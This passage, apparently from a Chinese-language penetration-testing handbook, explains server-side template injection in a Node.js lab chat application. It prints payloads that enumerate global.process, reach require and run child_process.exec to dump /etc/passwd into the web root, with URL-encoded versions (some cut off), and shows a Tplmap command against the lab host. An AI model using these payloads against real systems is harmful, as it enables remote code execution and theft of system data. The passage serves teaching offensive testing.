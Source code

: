  ![](img/chapter_3/3-30.png)

查找代码执行功能：

* 从上一个请求中，我们看到了全局中的所有对象以及一个名为“process”的对象。接下来，我们需要识别我们在 global.process 中可以访问的有趣对象：
    * each val,index in	global.process
    p=index 
    * URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%7
* 我们从所有可用的方法中选择“process”，因为我们知道它最终会导致‘require’。你可以通过选择不同的迭代方法来尝试尝试和错误过程：
    * each val,index in	global.process.mainModule 
    p = index
* URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%2

  ![](img/chapter_3/3-31.png)
 
远程执行代码：

* 发送此最终 payload ，我们应该在 global.process.mainModule 中看到“require”函数。我们现在可以将其设置为使用.exec 导入‘child_process’以获取 RCE：
    *  - var x = global.process.mainModule.require
    *  - x('child_process').exec('cat / etc / passwd >>/opt/web/chatSupportSystems/public/accounts.txt')
    *  URL 编码：
%0a%2d%20%76%61%72%20%78%20%3d%20%67%6c%6f%6
* 在上面的例子中，我们像在 JavaScript 中一样定义变量“x”，但行开头的破折号表示无缓冲输出（隐藏）。我们正在使用全局对象和我们最终需要的模块‘require’，这允许我们使用‘child_process’.exec 来运行系统命令。
* 我们将 /etc/passwd 的内容输出到 Web 公共根目录，这是我们唯一具有写入权限的目录（由应用程序创建者设计），允许用户查看内容。我们也可以使用系统命令执行反向shell或其他任何允许的操作。
* 我们可以看到 http://chat:3000/accounts.txt 将包含的内容
* 来自 Web 服务器的 /etc/passwd。
* 使用此命令在系统上执行完整的 RCE 并返回 shell。

 ![](img/chapter_3/3-32.png)

现在，我们可以对这一系列操作实现自动化吗？当然可以。有一个类似 SQLmap 的名为 [Tplmap](https://github.com/epinna/tplmap) 的工具，它可以尝试模板注入的所有不同组合：
* cd /opt/tplmap
* ./tplmap.py -u "http://chat:3000/ti?user=*&comment=asdfasdf&link="

 ![](img/chapter_3/3-33.png)

参考：

* http://blog.portswigger.net/2015/08/server-side-template-injection.html 
* https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/
 


### JavaScript 和远程代码执行

远程代码执行是我们在每次入侵和 Web 应用程序渗透测试中必须寻找的。虽然 RCE 几乎可能在任何地方找到，但它们最常见于允许上传的地方，例如：上传 web shell，一个像 [Imagetragick](https://imagetragick.com/) 这样的漏洞利用，使用 Office 文件进行 XXE 攻击，基于遍历的目录上传以替换关键文件等。
